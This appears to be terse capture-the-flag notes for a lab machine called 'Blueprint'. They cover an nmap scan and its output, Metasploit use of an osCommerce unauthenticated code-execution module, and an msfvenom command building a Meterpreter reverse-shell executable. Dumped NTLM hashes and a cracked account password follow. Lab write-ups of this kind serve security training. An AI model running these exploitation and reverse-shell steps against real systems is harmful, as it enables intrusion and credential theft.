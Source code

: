 2022-06-19
Blueprint

# gryNet
```
nmap -T5 -sC -sV 10.10.180.68 -oN nmap.log
nmap $IP | grep -E 'PORT|/.*.' 
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-19 13:52 CEST
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
541/tcp   filtered uucp-rlogin
625/tcp   filtered apple-xsrvr-admin
648/tcp   filtered rrp
749/tcp   filtered kerberos-adm
1052/tcp  filtered ddt
1063/tcp  filtered kyoceranetdev
1187/tcp  filtered alias
1461/tcp  filtered ibm_wrless_lan
1755/tcp  filtered wms
1935/tcp  filtered rtmp
1999/tcp  filtered tcp-id-port
2381/tcp  filtered compaq-https
2557/tcp  filtered nicetec-mgmt
3306/tcp  open     mysql
3323/tcp  filtered active-net
3995/tcp  filtered iss-mgmt-ssl
4000/tcp  filtered remoteanything
5925/tcp  filtered unknown
6112/tcp  filtered dtspc
8080/tcp  open     http-proxy
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
52848/tcp filtered unknown
56738/tcp filtered unknown
```

msfconsole
search oscommerce
multi/http/oscommerce_installer_unauth_code_exec
set SSL
set URI
set LPORT,LHOST,RPORT,RHOSTS
run
# METERPRETER

msfvenom -p windows/meterpreter/reverse_tcp LPORT=$PORT LHOST=$IP -f exe > reverse.exe
upload >
exec -f reverse.exe

Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::

Lab:googleplus